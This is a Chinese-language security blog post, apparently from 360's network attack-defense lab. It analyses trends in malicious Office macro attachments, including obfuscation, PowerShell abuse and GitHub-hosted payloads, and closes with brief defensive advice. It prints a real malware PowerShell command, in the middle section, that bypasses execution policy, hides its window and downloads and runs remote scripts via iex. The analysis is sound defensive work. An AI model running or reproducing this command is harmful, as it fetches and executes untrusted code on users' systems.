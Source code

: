 > 原文链接: https://www.anquanke.com//post/id/83615 


# 近期恶意office宏附件的一些变化


                                阅读量   
                                **82124**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t01f9823b45816d4967.jpg)](https://p1.ssl.qhimg.com/t01f9823b45816d4967.jpg)

       ** BY:Mickey@360网络攻防实验室**

**        前言：**

        office宏系列的恶意软件在原来不靠office,adobe漏洞的时代很流行，也许是漏洞的挖掘成本上升，现在的僵尸网络病毒，比如Dridex，又开始尝试用office宏来派发邮件附件，配合利用社会工程学技术，入侵个人或企业的网络。

 

        现在的office恶意宏的趋势

 

      **  1.更加混淆**

        比如看下面的混淆过的代码

[![](https://p0.ssl.qhimg.com/t01e526323d319f504f.jpg)](https://p0.ssl.qhimg.com/t01e526323d319f504f.jpg)

        变量不规则命名，字符串拆分，穿插垃圾字符，异或编码等是常见的技术，反混淆后如下：

[![](https://p1.ssl.qhimg.com/t0143d07a3d0ca89821.jpg)](https://p1.ssl.qhimg.com/t0143d07a3d0ca89821.jpg)

        可以看到是调用MSXML2.ServerXMLHTTP来实现HTTP的GET请求的功能函数

 

        还有把代码直接存放到Forms表单的

[![](https://p4.ssl.qhimg.com/t017fbc77cb1f80dc93.jpg)](https://p4.ssl.qhimg.com/t017fbc77cb1f80dc93.jpg)

 

       ** 2.利用powershell**

        随着winxp的不再被微软支持，使用win7及以后的版本用户逐渐增多，windows系统除了继续支持vbscript,bat等脚本语言实现任务批量处理后，又增加了powershell，powershell集成.net环境，功能更为强大。恶意软件当然也会盯着这个新功能。

 

[![](https://p4.ssl.qhimg.com/t01656ee419f01ea572.jpg)](https://p4.ssl.qhimg.com/t01656ee419f01ea572.jpg)

 

        其中的powershell代码为

        powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) `{`(new-object         Net.WebClient).DownloadString('https://github.com/consfw/msfw/raw/master/README') | iex `}` else `{`(new-object         Net.WebClient).DownloadString('https://github.com/consfw/msfw/raw/master/TODO') | iex`}`"

 

        这里的增加-ExecutionPolicy 是为了绕过默认powershel的安全提示，-WindowStyle Hidden 和-noprofile是为了不弹窗口。

 

      **  3.利用公共服务下载payload**

        比如上面的代码利用github来下载payload ,也会利用[IntPtr]::size 来判断操作系统版本，如下



```
if ([IntPtr]::size -eq 4) `{`
    (new-object Net.WebClient).DownloadString 
        ('https://github.com/consfw/msfw/raw/master/README') | iex
`}` else `{`
    (new-object Net.WebClient).DownloadString 
        ('https://github.com/consfw/msfw/raw/master/TODO') | iex
`}`
```

 

        如果[IntPtr]::size等于4,就是32位的操作系统，就去下载[https://github.com/consfw/msfw/raw/master/README](https://github.com/consfw/msfw/raw/master/README)，如果是8，就是64位操作系统，就去下载[https://github.com/consfw/msfw/raw/master/TODO](https://github.com/consfw/msfw/raw/master/TODO)

 

 

       ** 防护：**

        关闭office的宏功能（默认就是关闭的）。不点击来历不明的邮件附件。企业培训员工提高安全意识

 

     **   参考文章：**

[http://labs.bromium.com/2015/12/03/a-micro-view-of-macro-malware/](http://labs.bromium.com/2015/12/03/a-micro-view-of-macro-malware/)

[http://labs.bromium.com/2016/03/09/macro-malware-connecting-to-github/](http://labs.bromium.com/2016/03/09/macro-malware-connecting-to-github/)

[http://blog.trendmicro.com/trendlabs-security-intelligence/macro-malware-strides-new-direction-uses-forms-store-code/](http://blog.trendmicro.com/trendlabs-security-intelligence/macro-malware-strides-new-direction-uses-forms-store-code/)
